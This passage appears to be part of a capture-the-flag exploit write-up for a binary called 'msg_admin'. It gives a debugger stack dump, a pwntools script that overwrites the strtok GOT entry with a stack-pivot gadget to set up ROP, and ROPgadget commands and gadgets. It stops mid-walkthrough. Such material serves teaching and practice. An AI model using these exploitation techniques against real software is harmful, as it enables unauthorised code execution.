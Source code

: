 At the point of crash, our stack is in the following state:

```
[---------------------------------------STACK---------------------------------------]
00:0000| esp  0xffffc83c --> 0x8048cd0 (main+539) <-- mov    eax, dword ptr [ebp - 0x4c]
01:0004|      0xffffc840 <-- 0x63616164
02:0008|      0xffffc844 --> 0x804c170 <-- 'bbbb'
03:000c|      0xffffc848 --> 0x804c008 <-- 0xfbad2488
04:0010|      0xffffc84c <-- 'aaaabaaacaaadaa...'
05:0014|      0xffffc850 <-- 'baaacaaadaaaeaa...'
06:0018|      0xffffc854 <-- 'caaadaaaeaaafaa...'
07:001c|      0xffffc858 <-- 'daaaeaaafaaagaa...'
```

We see our controlled buffer at stack address `0xffffc84c`. We need to perform a stack pivot in order to move ESP to our buffer so we can start our ROP sequence. 

Set `bbbb` to the address of a `stack move 20` from binjitsu (`rop.search(move=20).address`) and set the offset of `daac` to the `strtok` GOT entry.

```python
from pwn import *

elf = ELF('msg_admin')
rop = ROP(elf)

pivot = rop.search(move=20).address # Need to move the stack 20 bytes to get to our ROP chain
strtok = elf.got['strtok']

log.info("Pivot: {}".format(hex(pivot)))
log.info("Strtok: {}".format(hex(strtok)))

# Overwrite `strtok` in GOT with the stack pivot
with open('pwn.msg', 'w') as f:
    sc = 'A' * cyclic_find('daac') + p32(strtok)
    sc += 'B' * (216 - len(sc))
    f.write('{}|{}\n'.format('a'*4, sc))
    f.write('{}|{}\n'.format(p32(pivot), 'B'*12))
```

Awesome, so now we have stack control and EIP control.. aka.. prime ROP condition. ;-)

Let's check out relevant ROP gadgets using [ROPGadget](https://github.com/JonathanSalwan/ROPgadget). One note, be sure to increase the `--depth` so that we can see more gadgets. In this case, it was important. We wouldn't be able to find our `clear eax` gadget without it.

```
$ ROPgadget --depth 30 --binary msg_admin
```

Two gadgets from the list stick out as interesting.

The gadget below will allow us to increment `eax` using a dereferenced pointer.

```
0x08048feb : add eax, dword ptr [ebx + 0x1270304] ; ret
```
